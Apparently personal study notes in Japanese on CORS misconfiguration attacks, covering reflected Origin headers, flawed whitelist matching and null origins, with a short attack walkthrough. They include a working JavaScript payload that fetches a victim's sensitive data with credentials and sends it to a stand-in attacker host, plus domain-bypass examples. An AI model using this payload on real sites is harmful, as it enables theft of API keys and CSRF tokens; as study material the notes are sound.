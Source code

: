 ## 前提知識
### クロスオリジンリソース共有とは？
- 特定のドメインのリソースにアクセスさせるための機能。
- 同一ドメインポリシーの拡張機能的役割。

## 攻撃概要の説明
### 1. **クライアントが指定したOriginヘッダーからサーバが生成したACAOヘッダー**
- リクエストからOriginヘッダーを読取り、レスポンスが許可されていることを示すレスポンスヘッダーを含める。
	↓リクエスト
	```
	GET /sensitive-victim-data HTTP/1.1
	Host: vulnerable-website.com
	Origin: https://malicious-website.com
	Cookie: sessionid=...
	```
	↓レスポンス
	```
	HTTP/1.1 200 OK
	Access-Control-Allow-Origin: https://malicious-website.com // ←アクセスが許可されたことを示す。
	Access-Control-Allow-Credentials: true // ←クッキーを含めることを許可している。
	...
	```

- 以下のスクリプトをWebサイトに配置することで、レスポンスに含まれるAPIキーだったり、CSRFトークンだったりが盗める。
```html
<html>
	<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','https://vulnerable-website.com/sensitive-victim-data',true); /** ←ターゲットサーバのURLとAPIキーなどが生成されている箇所を入力。 **/
	req.withCredentials = true;
	req.send();
	
	function reqListener() {
		location='//malicious-website.com/log?key='+this.responseText;
	}; // ← APIを受け取る先を指定する。
	</script>
</html>
```

## 2. Originヘッダーの解析エラー
- 別ドメインのアクセスを許可する設定として、ホワイトリストを使用することで制限を掛けることができる。
- 指定されたオリジンがホワイトリストにある場合、`Access-Control-Allow-Origin`ヘッダーに反映され、アクセスが許可される。
↓リクエスト
```
	GET /data HTTP/1.1
	Host: normal-website.com
	...
	Origin: https://innocent-website.com
```
↓レスポンス
```
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com
```
- CORSオリジンホワイトリストの実装では、ミスが起こる場合がある。
	- 例：
		- すべてのサブドメインを許可している。(将来的に取得するであろうドメインも含めて)
		- 他組織のドメインを許可している場合
			- これは正規表現で実装されていることが多くミスが起きやすい。
- **攻撃の例**
	- アプリケーションが次の文字で終わるすべてのドメインへのアクセスを許可する。
		```
		normal-website.com
		```
	- 上記に対して、攻撃者は以下のドメインでアクセスすることが可能となる。
		```
		hackersnormal-website.com
		もしくは
		normal-website.com.evil-user.net
		```

## 3. ホワイトリストに登録されたnullオリジン値
- Originヘッダーの使用では、null値がサポートされている。
- 以下の特殊な状況において、Originヘッダーでnull値を送信する場合がある。
	- クロスオリジンリダイレクト
	- シリアル化されたデータからのリクエスト
	- `file`プロトコルを使用してリクエストする。
	- サウンドボックス化されたクロスオリジンリクエスト

- ローカル開発を
---
## 攻撃の説明
### 基本的なオリジンリフレクションによるCORSの脆弱性

1. リクエストヘッダーに`Origin: http://hoge.com/`を追加して、`Access-Control-Allow-Origin:`と`Access-Control-Allow-Credentials: true`がレスポンスにあるかを確認。
	![[Pasted image 20251004184839.png]]
2. XSSなどと組み合わせて、被害者が自分が仕込んだOriginヘッダーを含んだリクエストを送信するように仕向ける。
	- 例：
3. `python -m http.server`を起動しリッスン、APIキーを受け取る。
---
